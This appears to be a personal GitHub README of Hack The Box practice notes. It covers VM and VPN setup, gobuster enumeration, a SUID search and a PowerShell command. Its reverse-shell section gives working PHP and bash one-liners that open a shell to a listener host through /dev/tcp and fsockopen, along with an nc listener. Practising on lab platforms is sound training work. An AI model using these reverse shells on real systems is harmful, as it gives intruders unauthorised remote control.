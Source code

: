 # HTB-Note
note about Hack The Box

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatShhet

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Directory Enumlation

- Gobuster options
  - [Gobuster Cheatsheet](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
- quick play
```
gobuster dir -t 100 -u http://url -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o outfile
```

### Reverse Shell

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
```
nc -lnvp 1234
```
- Direct input
```shell
php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```

### PowerShell

- 論理ドライブの一覧を表示
```
Get-PSDrive
```
